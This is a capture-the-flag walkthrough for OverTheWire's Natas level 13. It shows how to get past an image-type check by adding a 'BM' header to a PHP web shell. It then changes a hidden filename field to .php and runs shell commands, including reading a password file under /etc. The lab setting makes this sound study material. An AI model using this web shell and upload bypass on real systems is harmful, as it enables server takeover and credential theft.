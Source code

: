 # 🔐 Natas 13 Walkthrough

This level is pretty simular, except we are given the information that **for security reasons, we now only accept image files!**
So naturally we need to inspect the [View sourcecode](http://natas13.natas.labs.overthewire.org/index-source.html) link.
The line that should get your attention:

```php
 else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
}
```
It should get your attention for two reasons. Firstly, the `echo` content, obviously pointing that its connected to checking the file type. Secondly, if you've heard of it `exif_imagetype`.

## What is exif?

We can read from the php documentation. ***exif_imagetype() reads the first bytes of an image and checks its signature.*** File types have different headers. Thats what this function does. It just checks the first bytes for file headers.
So, in order to get out `shell.php` file pass we need to give it an image header. Let's look at basic file type headers:

| Filetype | Header (ASCII) |
| -------- | -------------- |
| png      | ‰PNG           |
| jpg      | ÿØÿà           |
| bmp      | BM		    |

As we can see alot of the headers translated to ASCII are non-standard characters, this can be a problem so let's pick the one with normal chars - **bmp (bitmap).**

## Adding the header to the script

Let's take the script from our natas12 solution and add `BM` infront of it, so the `exif` function thinks the file is a **bitmap.**
```php
BM<?php echo shell_exec($_GET['e'] . ' 2>&1');?>
```

Now once we selected the file, we still need to change the file extension in the sourcecode of the website - as done previuosly in natas12. **Inspect** and navigate to:
```html
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.jpg">
```

***Chagne it to:***

```html
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.php">
```

Now let's upload the the file. If done correctly, the file should upload and the `this file is not an image` error shouldn't pop up. Next click the uploaded file and find this:
```
BM
Notice: Undefined index: e in /var/www/natas/natas13/upload/90ie57i74v.php on line 1
```

This is practically the same line as in natas12. Only the header is **BM**, as it should be.

## Navigate through the server contents

Like in natas12, we need to change the `e` variable as in our script. Let's change the url as before, firstly `?e=ls`:
```
http://natas13.natas.labs.overthewire.org/upload/90ie57i74v.php?e=ls
```

This should give us a list of all the files inside the server.

>[!CAUTION]
>As you can see at the start of the list there still is the **BM** header. Keep that in mind.

Now let's `?e=cat%20/etc/natas_webpass/natas14` to get the natas14 password:

```
http://natas13.natas.labs.overthewire.org/upload/90ie57i74v.php?e=cat%20/etc/natas_webpass/natas14
```

This will give us the password to natas14. ***HOWEVER...***
This printed line still contains the **BM** header, so in order to get the correct password, make sure to delete it :).
